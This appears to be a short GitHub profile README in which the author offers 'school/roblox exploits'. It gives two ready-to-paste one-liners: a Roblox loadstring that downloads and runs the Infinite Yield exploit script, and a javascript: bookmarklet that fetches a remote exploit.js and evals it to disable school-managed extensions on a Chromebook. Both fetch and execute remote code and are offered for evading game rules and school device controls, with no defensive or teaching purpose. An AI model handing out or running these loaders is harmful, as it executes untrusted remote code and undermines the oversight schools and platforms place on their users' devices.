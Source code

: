 # Hi. Flying minion here. I have some school/roblox exploits for you!
loadstring(game:HttpGet('https://raw.githubusercontent.com/EdgeIY/infiniteyield/master/source'))() - Infinite Yield. The BEST panel for roblox exploiters. You can basically do anything with this on Roblox.
javascript:void fetch(`https://raw.githubusercontent.com/3kh0/ext-remover/main/exploit.js`).then(d=>d.text()).then(eval); - Extension Panel. This will allow you to enable and disable school extensions on your chromebook. If your school disabled bookmarklets, you're cooked.
